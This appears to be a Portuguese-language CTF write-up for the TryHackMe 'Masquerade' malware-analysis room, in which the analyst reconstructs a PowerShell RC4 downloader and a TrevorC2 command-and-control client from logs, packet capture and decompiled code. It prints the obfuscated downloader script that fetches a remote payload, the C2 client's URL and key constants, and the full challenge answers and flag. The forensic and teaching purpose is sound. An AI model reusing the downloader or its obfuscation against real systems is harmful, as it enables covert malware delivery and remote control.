






# 🎭 Masquerade — CTF Writeup
### TryHackMe Room | Malware Analysis / Network Forensics · PowerShell Downloader (RC4) + Reverse Engineering de C2 (TrevorC2 / AES-256-CBC)

---

| **Analista**          | Mauricio Robert                                                                              |
|-----------------------|----------------------------------------------------------------------------------------------|
| **Organização**       | CypherBaron                                                                            |
| **Data do Relatório** | 11/11/2026                                                                                   |
| **Classificação**     | CONFIDENCIAL                                                                                  |
| **Host da vítima**    | `DESKTOP-I6C5C7M`                                                                             |
| **Evidências**        | `traffic.pcapng`, logs do Event Viewer (`Microsoft-Windows-PowerShell/Operational`), binário `amdfendrsr.exe`, cliente .NET (TrevorC2Client) |
| **Ferramentas**       | Wireshark, Visualizador de Eventos do Windows, CyberChef, VirusTotal, dnSpy, ChatGPT (apoio de análise) |
| **Link da sala**      | [tryhackme.com/room/masquerade](https://tryhackme.com/room/masquerade)                        |

---

## 🔍 Resumo Executivo

O desafio **Masquerade** (TryHackMe) investiga um incidente de malware em duas camadas, reconstruído a partir de uma captura de tráfego (`traffic.pcapng`) e logs do PowerShell do host vítima **`DESKTOP-I6C5C7M`**. Na **primeira etapa**, um *script block* do PowerShell (registrado no **Event ID 4104**) é identificado baixando um payload de um domínio externo (`api-edgecloud.xyz`), decodificando-o de hexadecimal e **descriptografando-o com RC4** usando uma chave fragmentada em variáveis — revelando um executável Windows (`amdfendrsr.exe`) que o **VirusTotal** confirma como malicioso (49/69 engines). Na **segunda etapa**, a engenharia reversa desse binário com o **dnSpy** revela que ele é, na verdade, um cliente **TrevorC2** — uma ferramenta de *command-and-control* que **mascara** (daí o nome da sala) seu tráfego como navegação HTTP legítima, comunicando-se com `http://34.174.57.99` e cifrando os comandos trocados com **AES-256-CBC**. Decifrando o tráfego com a chave derivada do código-fonte, a flag final do incidente é recuperada diretamente dos comandos executados pelo atacante na máquina da vítima.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta | Finalidade |
|---|---|
| **Visualizador de Eventos do Windows** | Extração do *script block* do PowerShell (Event ID 4104) registrado durante a execução do downloader |
| **Wireshark (Follow HTTP Stream)** | Análise da captura de tráfego — download do payload via HTTP e tráfego de C2 |
| **CyberChef** (`From Hex` → `RC4`) | Decodificação hexadecimal e descriptografia RC4 do payload de primeiro estágio |
| **VirusTotal** | Verificação de reputação do binário extraído (`amdfendrsr.exe`) |
| **dnSpy** | Descompilação do binário .NET (cliente TrevorC2) para extrair URL, chave e algoritmo de criptografia do C2 |
| **ChatGPT** | Apoio na correlação de evidências e documentação do raciocínio de análise |

---

## 📋 Parte 1 — Análise do Downloader PowerShell (Payload de 1º Estágio)

### Q1 — Qual domínio externo foi contatado durante a execução do script?

> **Resposta: `api-edgecloud.xyz`**

### Q2 — Qual algoritmo de criptografia foi usado pelo script?

> **Resposta: `RC4`**

### Q3 — Qual chave foi usada para descriptografar o payload de segundo estágio?

> **Resposta: `X9vT3pL2QwE8xR6ZkYhC4s`**

**Solução:** No **Visualizador de Eventos** do host vítima, o log `Microsoft-Windows-PowerShell/Operational` registra um evento **4104 (Criando texto Scriptblock)** contendo o script completo executado:

> 

```powershell
$k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s'))
$h = (New-Object System.Net.WebClient).DownloadString((-join('ht','tp','://','api-edg','e','cl','oud.xy','z/amd.bi','n'))) -replace ('\'+'s'),''
$b = for($x=0; $x -lt $h.Length; $x+=2) { [Convert]::ToByte($h.Substring($x, 2), 16) }

$s = 0..255
$j = 0
for ($i = 0; $i -lt 256; $i++) {
    $j = ($j + $s[$i] + $k[$i % $k.Count]) % 256
    $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
}

$i = $j = 0
$d = foreach ($byte in $b) {
    $i = ($i + 1) % 256
    $j = ($j + $s[$i]) % 256
    $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
    $byte -bxor $s[($s[$i] + $s[$j]) % 256]
}

$p = $env:TEMP + '\amdfendrsr.exe'
```

O script usa **`-join`** para reconstruir dinamicamente a URL a partir de fragmentos de string (técnica de ofuscação) — `http://api-edgecloud.xyz/amd.bin` — e implementa **manualmente o algoritmo RC4** em PowerShell puro: o bloco `for` que inicializa o array `$s` de 0 a 255 e embaralha com a chave é o clássico **KSA (Key Scheduling Algorithm)**, e o loop `foreach` seguinte é o **PRGA (Pseudo-Random Generation Algorithm)** que realiza o XOR byte a byte — a assinatura inconfundível do **RC4**.

A chave usada, também fragmentada para dificultar a detecção por assinatura, é a concatenação de `'X9vT3pL' + '2QwE' + '8xR6' + 'ZkYhC4' + 's'` = **`X9vT3pL2QwE8xR6ZkYhC4s`**.

**Resumo do comportamento do script (confirmado via análise cruzada com ChatGPT):**

1. **Download:** baixa o conteúdo de `http://api-edgecloud.xyz/amd.bin`
2. **Decodificação:** converte a sequência hexadecimal recebida em bytes
3. **Descriptografia:** utiliza o algoritmo **RC4** para descriptografar o conteúdo
4. **Gravação:** salva o executável resultante em `%TEMP%\amdfendrsr.exe`
5. **Execução:** executa o arquivo usando `Start-Process`

> 

---

### Q4 — Qual foi o timestamp da resposta do servidor contendo o payload?

> **Resposta: `Fri, 10 Apr 2026 05:28:23 GMT`**

**Solução:** Seguindo o fluxo HTTP correspondente no Wireshark (**Follow → HTTP Stream**, `tcp.stream eq 42`), identifica-se a requisição e a resposta do servidor que entrega o payload:

> 

```
GET /amd.bin HTTP/1.1
Host: api-edgecloud.xyz
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.2
Date: Fri, 10 Apr 2026 05:28:23 GMT
Content-type: application/octet-stream
Content-Length: 18432
Last-Modified: Fri, 10 Apr 2026 05:24:11 GMT

12d0a6f2a6fd9e88b496fe9c93a15eef2f95bfe5dea72a7ccfab0fd740080d6...
```

O servidor (identificado como `SimpleHTTP/0.6 Python/3.11.2` — um servidor HTTP simples criado com Python, típico de infraestrutura improvisada de atacante) responde com o cabeçalho **`Date: Fri, 10 Apr 2026 05:28:23 GMT`**, contendo os 18.432 bytes do payload hexadecimal em texto puro, que o script decodifica e descriptografa.

---

### Q5 — Qual é o hash SHA-256 do payload extraído e descriptografado?

> **Resposta: `E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB`**

**Solução:** Reproduzindo a lógica do script no **CyberChef** (`From Hex` → `RC4` com a chave `X9vT3pL2QwE8xR6ZkYhC4s`, formatos de entrada/saída `Latin1`), o payload hexadecimal de 18.432 bytes é descriptografado com sucesso, revelando um **executável PE válido** — confirmado pela assinatura `MZ` e pela string `This program cannot be run in DOS mode` no início do output:

> 

Salvando o conteúdo descriptografado como `amdfendrsr.exe` e calculando seu hash:

```powershell
PS C:\Users\meliadmin\Downloads> Get-FileHash -Algorithm SHA256 .\amdfendrsr.exe

Algorithm       Hash
---------       ----
SHA256          E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB
```

Submetendo o hash ao **VirusTotal**, o arquivo é confirmado como **malicioso por 49 de 69 fornecedores de segurança**:

> 

| Campo | Valor |
|---|---|
| Nome do arquivo | `amdfendrsr.exe` |
| Tamanho | 9,00 KB |
| Tags | `peexe`, `assembly`, `detect-debug-environment` |
| Detecções | **49/69** fornecedores |
| URL contatada | `http://34.174.57.99/` (e variações `/images?guid=...`) |

A aba **"Relations"** do VirusTotal já antecipa a segunda etapa da investigação: o binário descriptografado contata a URL **`http://34.174.57.99/`** — o verdadeiro servidor de **Command & Control**.

---

## 📋 Parte 2 — Engenharia Reversa do Cliente C2 (TrevorC2 / AES-256-CBC)

### Q6 — Qual URL remota o cliente usou para se comunicar com a máquina da vítima?

> **Resposta: `http://34.174.57.99`**

### Q7 — Qual chave e algoritmo de criptografia o cliente usa?

> **Resposta: AES-256-CBC, chave = SHA-256 da string `M4squ3r4d3Th3P4ck3tSt34lthM0d31337`**

**Solução:** Carregando `amdfendrsr.exe` no **dnSpy** para descompilação .NET, revela-se que o binário é, na verdade, baseado no projeto open-source **TrevorC2** — uma ferramenta de C2 que mascara seu tráfego como navegação legítima a um site, usando cookies e caminhos de URL aparentemente inofensivos (`/images`) para esconder comandos:

> 

```csharp
private const string SITE_URL = "http://34.174.57.99";
private const string ROOT_PATH_QUERY = "/";
private const string SITE_PATH_QUERY = "/images";
private const string QUERY_STRING = "guid=";
private const string STUB = "oldcss";

private const int time_interval1 = 2;
private const int time_interval2 = 8;
private const int time_factor = 1000;

private const string CIPHER = "M4squ3r4d3Th3P4ck3tSt34lthM0d31337";

private static Random rng = new Random();
private static CookieContainer CookieContainer = new CookieContainer();
private static string computerName = Environment.MachineName;
```

O código confirma:

- **URL remota (C2):** `http://34.174.57.99` — exatamente o endereço já observado nas conexões do VirusTotal
- **Técnica de disfarce ("masquerade"):** o cliente alterna entre requisições à raiz (`/`) e ao caminho `/images?guid=<base64>`, simulando um navegador acessando uma galeria de imagens, enquanto na verdade troca comandos codificados no parâmetro `guid`
- **Algoritmo de criptografia:** as funções `CreateAesKey()`, `CreateAesManagedObject()`, `DecryptString()` e `EncryptString()` confirmam o uso de **AES-256 em modo CBC**
- **Chave de criptografia:** a constante **`CIPHER = "M4squ3r4d3Th3P4ck3tSt34lthM0d31337"`** é usada como material de origem — a chave AES real é derivada como o **hash SHA-256** dessa string

---

### Q8 — Decifrando os comandos executados pelo atacante na vítima (Flag)

> **Resposta: `THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}`**

**Solução:** Com o algoritmo e a chave em mãos, o tráfego de C2 capturado no `traffic.pcapng` (conexão de origem na porta **49941**) é descriptografado:

- **Algoritmo:** AES-256-CBC
- **Chave AES:** SHA-256 da string `M4squ3r4d3Th3P4ck3tSt34lthM0d31337`
- **IV (vetor de inicialização):** os primeiros 16 bytes do conteúdo decodificado
- **Codificação de transporte:** duas camadas de **Base64** (consistente com o parâmetro `guid=` do TrevorC2, que ofusca o payload cifrado como se fosse um identificador de imagem)

> 

Descriptografando o tráfego enviado pela vítima ao servidor C2, o texto em claro revela:

```
DESKTOP-I6C5C7M:::THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}
```

**Flag final: `THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}`**

---

## ⛓ Kill Chain — Ataque Reconstruído

```
[FASE 1 — ENTREGA DO DOWNLOADER]
    Script PowerShell malicioso executado no host DESKTOP-I6C5C7M
    (registrado via Event ID 4104, PowerShell Script Block Logging)
    ↓
[FASE 2 — DOWNLOAD DO PAYLOAD DE 1º ESTÁGIO]
    GET http://api-edgecloud.xyz/amd.bin  → HTTP 200, 18.432 bytes (hex)
    Timestamp do servidor: Fri, 10 Apr 2026 05:28:23 GMT
    ↓
[FASE 3 — DESCRIPTOGRAFIA RC4]
    Chave: X9vT3pL2QwE8xR6ZkYhC4s (fragmentada no código)
    Hex → bytes → RC4 (KSA + PRGA implementados manualmente em PowerShell)
    → Executável PE válido revelado (assinatura "MZ")
    ↓
[FASE 4 — GRAVAÇÃO E EXECUÇÃO]
    Arquivo salvo como %TEMP%\amdfendrsr.exe
    SHA-256: E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB
    VirusTotal: 49/69 detecções — malicioso
    Start-Process executa o binário
    ↓
[FASE 5 — ESTABELECIMENTO DO C2 (TrevorC2)]
    Binário identificado via dnSpy como cliente TrevorC2
    Comunicação mascarada como navegação web: GET /images?guid=<base64(AES-CBC)>
    Servidor C2: http://34.174.57.99
    ↓
[FASE 6 — TROCA DE COMANDOS CIFRADOS]
    Algoritmo: AES-256-CBC | Chave: SHA-256("M4squ3r4d3Th3P4ck3tSt34lthM0d31337")
    Conexão de origem (porta 49941) descriptografada
    → Comando/flag do atacante revelado:
      DESKTOP-I6C5C7M:::THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}
```

---

## 🗺 Mapeamento Investigativo

| Pergunta | Fonte de Evidência | Resposta |
|---|---|---|
| Domínio externo contatado | Event ID 4104 (PowerShell) / Wireshark | `api-edgecloud.xyz` |
| Algoritmo de criptografia do script | Event ID 4104 — lógica RC4 manual (KSA/PRGA) | `RC4` |
| Chave do payload de 2º estágio | Event ID 4104 — variável `$k` | `X9vT3pL2QwE8xR6ZkYhC4s` |
| Timestamp da resposta do servidor | Wireshark — cabeçalho HTTP `Date` | `Fri, 10 Apr 2026 05:28:23 GMT` |
| SHA-256 do payload descriptografado | CyberChef + `Get-FileHash` | `E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB` |
| URL remota do cliente C2 | dnSpy — `SITE_URL` | `http://34.174.57.99` |
| Chave/algoritmo do cliente | dnSpy — constante `CIPHER` + métodos AES | AES-256-CBC, chave = SHA-256("M4squ3r4d3Th3P4ck3tSt34lthM0d31337") |
| Flag dos comandos do atacante | Tráfego AES-256-CBC descriptografado | `THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}` |

---

## 🚨 Artefatos e Indicadores Identificados (IOCs)

| Tipo | Indicador | Contexto |
|---|---|---|
| Host da vítima | `DESKTOP-I6C5C7M` | Máquina comprometida |
| Domínio (payload de 1º estágio) | `api-edgecloud.xyz` | Hospeda o downloader `amd.bin` |
| URL de download | `http://api-edgecloud.xyz/amd.bin` | Payload RC4-criptografado (18.432 bytes) |
| Servidor de staging | `SimpleHTTP/0.6 Python/3.11.2` | Servidor HTTP improvisado do atacante |
| Chave RC4 | `X9vT3pL2QwE8xR6ZkYhC4s` | Descriptografa o payload de 1º estágio |
| Arquivo malicioso | `amdfendrsr.exe` (salvo em `%TEMP%`) | Cliente TrevorC2 |
| Hash SHA-256 | `E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB` | `amdfendrsr.exe` — 49/69 no VirusTotal |
| Servidor C2 (2º estágio) | `http://34.174.57.99` | TrevorC2 — tráfego mascarado como navegação |
| Caminho de disfarce | `/images?guid=<base64>` | Canal de comando mascarado |
| Chave de origem AES | `M4squ3r4d3Th3P4ck3tSt34lthM0d31337` (SHA-256 → chave AES-256) | Criptografia do canal C2 |
| Porta de conexão da vítima | `49941` | Origem do tráfego decifrado com a flag |
| Técnica (MITRE ATT&CK) | `T1059.001` | Command and Scripting Interpreter: PowerShell |
| Técnica (MITRE ATT&CK) | `T1027` | Obfuscated Files or Information (string splitting, RC4) |
| Técnica (MITRE ATT&CK) | `T1105` | Ingress Tool Transfer (download do `amd.bin`) |
| Técnica (MITRE ATT&CK) | `T1071.001` | Application Layer Protocol: Web Protocols (C2 via HTTP) |
| Técnica (MITRE ATT&CK) | `T1001.002` | Data Obfuscation: Steganography/Mimicry (tráfego mascarado como navegação de imagens) |
| Técnica (MITRE ATT&CK) | `T1573.001` | Encrypted Channel: Symmetric Cryptography (AES-256-CBC) |

---

## ✅ Resumo das Flags / Respostas

| # | Pergunta | Resposta |
|---|---|---|
| Q1 | Domínio externo contatado | `api-edgecloud.xyz` |
| Q2 | Algoritmo de criptografia do script | `RC4` |
| Q3 | Chave do payload de 2º estágio | `X9vT3pL2QwE8xR6ZkYhC4s` |
| Q4 | Timestamp da resposta do servidor | `Fri, 10 Apr 2026 05:28:23 GMT` |
| Q5 | SHA-256 do payload descriptografado | `E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB` |
| Q6 | URL remota do cliente C2 | `http://34.174.57.99` |
| Q7 | Chave/algoritmo do cliente | AES-256-CBC, chave = SHA-256("M4squ3r4d3Th3P4ck3tSt34lthM0d31337") |
| Q8 | Flag dos comandos descriptografados | `THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}` |

---

## 📚 Referências

- [TryHackMe — Masquerade](https://tryhackme.com/room/masquerade)
- [TrevorC2 — GitHub (repositório original)](https://github.com/trustedsec/trevorc2)
- [CyberChef — RC4 Operation](https://gchq.github.io/CyberChef/)
- [MITRE ATT&CK — T1071.001 Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
- [MITRE ATT&CK — T1573.001 Encrypted Channel: Symmetric Cryptography](https://attack.mitre.org/techniques/T1573/001/)
- [MITRE ATT&CK — T1027 Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
- [VirusTotal](https://www.virustotal.com/)

---